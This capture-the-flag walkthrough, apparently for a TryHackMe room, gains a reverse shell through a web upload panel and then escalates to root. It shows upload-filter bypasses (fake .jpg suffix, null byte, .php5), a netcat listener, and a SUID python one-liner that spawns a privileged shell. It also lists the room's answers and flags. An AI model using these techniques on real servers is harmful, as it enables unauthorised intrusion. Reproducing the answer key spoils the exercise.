


#security #web #linux #privilege-escalation

---

> First we scan the machine using nmap.
> Include a script and version scan.

```
nmap -sC -sV 10.10.242.178 
```



###### Scan the machine, how many ports are open? : `2`

###### What version of Apache is running? : `2.4.29`

###### What service is running on port 22? : `ssh`

> Since we have port 80 open, we can open the machine in the browser.
> We see nothing special, and nothing special when viewing the source code.
> The next step is to enumerate the directories.

```
gobuster dir -u http://10.10.242.178 -w /usr/share/wordlists/dirb/common.txt
```


> We see 2 directories that we have access to, `/panel` and `/uploads`.
> Visiting `/panel`.

###### What is the hidden directory? : `/panel/`



> We can upload files.
> Visiting the `/uploads` directory, it contains the files we uploaded.

> We need to upload a reverse shell through `/panel`.
> Heading to `/usr/share/webshells/php` and opening the `php-reverse-shell.php` reverse shell.
> Edit the `ip` address of your machine on which the listener will start.


> Try uploading this file in the `/panel` page.
> We get this error.


> Open BUPSUITE proxy and set intercept on.
> Capture the `POST` request sent while uploading the file.
> Change the filename and add the extension `.jpg` after the file name to obfuscate the file extension.


> Forwarding the request, we see a green message.
> Heading to the `/uploads` directory, we see that we have uploaded the shell.


> Setting up a listener by netcat and clicking on the file we uploaded.

```
nc -nlvp 1234
```

> Nothing happens.
> Trying a different file upload bypass technique.
> With proxy and intercept on, change the filename to `new-shell.php%00.jpg`.
> The null character is supposed to disregard anything after it.


> Forwarding the request, we get a green message.
> Heading to the `/uploads` directory, we see our file.
> Starting the listener again, and running the file, but nothing happens.

> Trying another technique, changing the php file extension to another one that might not be blacklisted.
> Renaming the file to end in the extension `.php5` instead and then uploading it through `/panel`.
> We get the green message, heading to `/uploads` we see the 


> Setting up the netcat listener and *then* clicking on it we get the shell.


```
cd var
cd www
car user.txt
```

> We get the first flag: `THM{y0u_g0t_a_sh3ll}`.

###### user.txt : `THM{y0u_g0t_a_sh3ll}`

> Now we look for files with SUID permissions to try and escalate privileges to root.

```
find / -perm /4000 2> /dev/null
```


> Going to GTFObins to check out which of these we can abuse, but we can see automatically that `/usr/bin/python` stands out.

###### Search for files with SUID permission, which file is weird? : `/usr/bin/python`

> In GTFObins, look for python with SUID.


> We see that we already have python installed, we just need to run the second command.
> However, we need to modify the path to python.

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

> After running, type in `whoami` to see that we are root.
> We need to locate now the `root.txt` file.

```
find / -type f -name root.txt 2>/dev/null
```


> We see that it is located in `/root/root.txt`.
> Opening it to see the flag.

```
THM{pr1v1l3g3_3sc4l4t10n}
```

###### root.txt : `THM{pr1v1l3g3_3sc4l4t10n}`

---
